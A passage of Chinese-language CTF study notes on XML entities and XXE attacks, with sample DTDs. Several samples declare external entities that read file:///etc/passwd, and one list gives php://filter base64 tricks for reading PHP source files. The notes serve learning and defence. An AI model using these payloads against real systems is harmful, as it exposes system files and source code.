 ```xml-dtd
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE test [
    <!ENTITY writer "Dawn">
    <!ENTITY copyright "Copyright W3School.com.cn">
]>
<test>&writer;©right;</test>
```

*外部实体*
 外部实体，用来引入外部资源。有`SYSTEM`和`PUBLIC`两个关键字，表示实体来自本地计算机还是公共计算机。

```xml-dtd
<!ENTITY 实体名称 SYSTEM "URI/URL">
或者
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```

**外部实体示例代码：**

```xml-dtd
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE author [
    <!ENTITY file SYSTEM "file:///etc/passwd">
    <!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&file;©right;</author>
```

外部实体可支持http、file等协议。不同程序支持的协议不同：

![img](CTF-WEB%E7%AF%87.assets/20191202150935-b26e4a30-14d2-1.png)

PHP引用外部实体，**常见的利用协议**：

```
file://文件绝对路径 如：file:///etc/passwd
http://url/file.txt
php://filter/read=convert.base64-encode/resource=xxx.php
```

*参数实体+外部实体*

```
<!ENTITY % 实体名称 SYSTEM "URI/URL">
```

参数实体+外部实体示例代码：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  %file;
]>
```

`%file`(参数实体)是在DTD中被引用的，而`&file;`是在xml文档中被引用的。
